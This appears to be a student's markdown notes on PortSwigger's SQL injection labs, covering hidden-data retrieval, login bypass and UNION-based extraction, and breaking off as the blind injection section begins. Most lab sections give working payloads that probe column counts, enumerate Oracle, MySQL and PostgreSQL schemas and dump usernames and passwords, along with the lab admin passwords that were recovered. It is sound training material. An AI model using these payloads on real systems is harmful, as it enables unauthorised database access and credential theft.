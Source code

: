 # SQL Injection

 - [Retrieving hidden data](#retrieving-hidden-data)
 - [UNION attacks](#union-attacks)
 - [Blind SQL injection](#blind-sql-injection)

Details at [here](https://portswigger.net/web-security/sql-injection)

Type of SQL injection in example

- Retrieving hidden data
- UNION attacks
- Blind SQL injection

## Retrieving hidden data

Modify an SQL query to return additional results

[Lab 1](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

Description of this lab: the query of 1 category `Gifts`

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

And sample URL query: `https://example.com/filter?category=Gifts`

Goal: display details of all products in any category, both *released and unreleased*

`SELECT * FROM products WHERE category = '' or '1'='1' AND released = 1`

We just only adjust in `category=` and put into `''`, so the final payload:
`' or '1'='1` or `https://example.com/filter?category=%27%20or%20%271%27or%271` 

[Lab 2](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

Description of this lab: inject in login page as username: administrator

So we need to modify the password, and check the password with the previous payload: `' or '1'='1`, and it worked

## UNION attacks

Detail found at [here](https://portswigger.net/web-security/sql-injection/union-attacks)

See cheatsheet [here](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[Lab 3](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

Description of this lab: vulnerability in the product category filter, use a UNION attack to retrieve data from other tables

Firstly, we need to identify the number of columns in the table, and use payload: `' ORDER BY <number-of-column> --` to check, after we use `' ORDER BY 4 --`, we got the error `Internal Server Error` so the column is 3.

Finally, we use `' UNION SELECT NULL, NULL, NULL--` to make a union attack at `/filter?category=` then solved this challenge.

[Lab 4](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

Description of this lab: You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data. After that, alter NULL to random text on the homepage, for example: 'qG26iL'

Do as same as the previous one with `' UNION SELECT NULL, NULL, NULL--`. After trying, the final payload is `' UNION SELECT NULL, 'qG26iL', NULL--`

[Lab 5](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

Description of this lab: The database contains a different table called users, with columns called username and password

In this lab, there are 2 columns in this table

Do the same as the previous one with `' UNION SELECT NULL, NULL--`. Follow the description, and change NULL to username and password. Moreover, we need access to a table named `users`, so the payload is: `' UNION SELECT username, password FROM users--`, then we got all username and password.

Login with the password of user `administrator`: nq3glruptcrilo0yscf6 and solved the lab.  

[Lab 6](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

This lab has the same description as the previous one but we need to retrieve multiple values in a single column. Furthermore, in this lab, we can use only the second column.

Look at the cheatsheet, we can use the string concatenation technique. After trying, we found this lab use `||` for concatenate string. The final payload is `' UNION SELECT NULL, username||':'||password FROM users--` to get all usernames and passwords.

Login with the password of user `administrator`: 532codf0er823llefy7x and solved the lab. 

[Lab 7](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

Description of this lab: display the database version string of Oracle

In this lab, the available number of columns is 2. Look at the cheatsheet, try with: `SELECT banner FROM v$version` and the final payload is: `' UNION SELECT banner, NULL FROM v$version--`, then solved the lab.

[Lab 8](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

This lab has the same description as the previous one, but for MySQL and Microsoft.

The final payload is `' UNION SELECT @@version, NULL#`, we will change `v$version` to `@@version`, `--` to `#`, then solved the lab.


[Lab 9](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

Description of this lab: You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

This lab has 2 available cloumns, we need to determine the name of table first. However, determine the version of database. After trying, `' UNION SELECT version(), NULL--` worked and result is `PostgreSQL 12.12 (Ubuntu 12.12-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit`

Check the cheatsheet, found database contents with PostgreSQL using `' UNION SELECT table_name, NULL FROM information_schema.tables--`. So there are a lot of tables, find the column of table `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_ahngdj'--`, the result is colunms names: username_ivoiag and password_vxgmam

The final payload is `' UNION SELECT username_ivoiag, password_vxgmam FROM users_ahngdj--`, the password of administrator is l9jw2he0g1jr5zzndr3o. Login with this password, then solved the lab.

[Lab 10](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

This lab has the same description as the previous one, but for oracle.

Get all table name in database with `' UNION SELECT table_name, NULL FROM all_tables--`, and the name of table which we need to access is USERS_NOFLTA then use `' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_NOFLTA'--` to get name of password and username column: PASSWORD_EVVZCC & USERNAME_ETTQUM.

The final payload is: `' UNION SELECT USERNAME_ETTQUM, PASSWORD_EVVZCC FROM USERS_NOFLTA--` and get password of administrator is qhwrw9aos6k2p2uodezp, login and solved the lab.

## Blind SQL injection 

[Lab 11](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

Description of this lab: The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

